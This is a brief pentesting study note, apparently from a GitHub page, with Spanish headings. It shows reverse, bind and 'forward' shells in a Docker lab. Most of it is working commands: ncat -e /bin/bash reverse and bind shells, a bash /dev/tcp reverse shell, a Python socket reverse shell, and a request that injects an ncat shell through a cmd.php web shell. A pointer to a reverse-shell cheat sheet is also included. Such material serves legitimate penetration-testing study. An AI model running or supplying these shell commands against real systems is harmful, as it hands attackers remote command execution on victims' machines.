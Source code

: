 ## Reverse Shells, Bind Shells y Forward Shells
```bash
# --- REVERSE ---
# Create a dockerfile
docker build -t my_image . # build image
docker run -dit -p 80:80 --name myContainer my_image # run container
docker exec -it myContainer bash # execute container

apt install ncat # in machine

nc -nlvp 443 # in local machine
# -n=no dns resolution
# -l=listen all ocnnections
# -v=verbose
# -p=port

ncat -e /bin/bash 172.17.0.1 443 # in machine, put docker ip form the local machine
script /dev/mull -c bash # to show console

# --- BIND ---
ncat -nlvp 443 -e /bin/bash # in docker machine
nc 172.17.0.1 443 # in local

# --- FORWARD ---
docker stop myContainer

docker run -dit -p80:80 --cap-add=NET_ADMIN --name myContainer my_image

iptables --flush
iptables -A INPUT -p tcp --dport 80 -j ACCEPT # in machine

iptables -A INPUT -p tcp --dport 0:65535 -m conntrack --ctstate NEW -j DROP

http://localhost/cmd.php?cmd=ncat%20-e%20/bin/bash%20172.17.0.1%20443 # in machine

# use tty to avoid iptables

bash -i >& /dev/tcp/172.17.0.1/443 0>&1 # in machine

# reverse shell monkey pentester
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

apt install python3 # in machine

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


```
## Tipos de Payloads
- Staged: Send payload in fragmented
